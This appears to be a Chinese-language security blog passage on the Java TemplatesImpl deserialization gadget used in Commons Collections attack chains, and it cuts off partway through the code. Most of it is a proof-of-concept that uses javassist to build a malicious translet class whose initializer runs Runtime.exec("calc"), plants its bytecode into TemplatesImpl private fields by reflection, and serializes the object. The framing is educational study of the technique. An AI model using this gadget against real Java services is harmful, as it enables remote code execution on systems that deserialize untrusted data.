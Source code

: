 ## TemplatesImpl

想了很久，觉得还是要专门写一篇文章来介绍TemplatesImpl，虽然在CC2攻击链中已经用到了TemplatesImpl，但是并没有对TemplatesImpl专门写过一篇分析文章，我觉得很有必要写一篇更全面的内容来让更多小白更轻松的学习这些内容，而不是碎片化的一些内容。

先给一段代码，我的学习方法就是，先跑脚本看效果，然后再去跟踪debug，跟踪方法具体的执行逻辑，然后分析为什么会触发逻辑，大概就是这么个逻辑。

### POC测试代码 - 1

这是一段因为TemplatesImpl尝试反序列化加载一个恶意类，导致Runtime代码被执行的代码，如下(我使用JDK8u131运行该代码)：

````java
package templates_example;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;

public class TemplatesDemo {
    static String serialFileName = "templates-example.ser";

    public static void main(String[] args) throws Exception {
        ClassPool classPool = ClassPool.getDefault();
        CtClass evil = classPool.makeClass("Pwner");

        CtClass superC = classPool.get(AbstractTranslet.class.getName());
        evil.setSuperclass(superC);
        String className = "Erosion-" + System.nanoTime();
        evil.setName(className);
        evil.makeClassInitializer().insertBefore("Runtime.getRuntime().exec(\"calc\");");

        byte[] bytecode = evil.toBytecode();
        byte[][] evilByteCodes = {bytecode};

        TemplatesImpl templates = new TemplatesImpl();
        Class<? extends TemplatesImpl> templatesClass = templates.getClass();
        Field nameField = templatesClass.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "EvilObj");
        Field bytecodesFiled = templatesClass.getDeclaredField("_bytecodes");
        bytecodesFiled.setAccessible(true);
        bytecodesFiled.set(templates, evilByteCodes);
        Field tfactoryFiled = templatesClass.getDeclaredField("_tfactory");
        tfactoryFiled.setAccessible(true);
        tfactoryFiled.set(templates, new TransformerFactoryImpl());
        serial(templates);
        verify();
    }

    public static void serial(Object obj)throws Exception{
        FileOutputStream fos = new FileOutputStream(serialFileName);
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(obj);
        oos.flush();
        oos.close();
    }
````